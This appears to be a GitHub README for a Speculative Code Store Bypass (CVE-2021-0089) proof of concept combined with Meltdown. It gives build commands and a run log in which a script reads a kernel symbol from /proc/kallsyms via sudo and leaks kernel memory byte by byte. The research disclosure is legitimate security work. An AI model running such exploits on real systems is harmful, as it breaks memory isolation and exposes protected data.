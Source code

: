 # Speculative Code Store Bypass POC
Speculative Code Store Bypass Vulnerability Proof-of-Concept

# Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html

We discoverd this vulnerability a long time ago. We always used it as a novel way to suppress the fault in Meltdown-type attack. And this POC is a demonstration. It is a little pity that we fail to disclose it in the first place :(. 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit

# Result
$ make  
gcc -O3 -o sscb sscb.c  
$ ./run.sh  
looking for linux_proc_banner in /proc/kallsyms  
protected. requires root  
+ find_linux_proc_banner /proc/kallsyms sudo  
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms  
[sudo] password for hack:  
+ linux_proc_banner=ffffffff81800060  
+ set +x  
cached = 158, uncached = 404, threshold 208  
read 25 % (score=913/1000)  
read 73 s (score=904/1000)  
read 20   (score=869/1000)  
read 76 v (score=850/1000)  
read 65 e (score=839/1000)  
read 72 r (score=933/1000)  
read 73 s (score=864/1000)  
read 69 i (score=897/1000)  
read 6f o (score=867/1000)  
read 6e n (score=861/1000)  
read 20   (score=789/1000)  
read 25 % (score=809/1000)  
read 73 s (score=883/1000)  
read 20   (score=703/1000)  
read 28 ( (score=856/1000)  
read 62 b (score=774/1000)  
read 75 u (score=770/1000)  
read 69 i (score=682/1000)  
read 6c l (score=856/1000)  
read 64 d (score=698/1000)  
read 64 d (score=776/1000)  
read 40 @ (score=850/1000)  
read 6c l (score=683/1000)  
read 67 g (score=846/1000)  
read 77 w (score=755/1000)  
read 30 0 (score=725/1000)  
read 31 1 (score=830/1000)  
read 2d - (score=827/1000)  
read 34 4 (score=766/1000)  
read 33 3 (score=791/1000)  
read 29 ) (score=736/1000)  
read 20   (score=699/1000)  
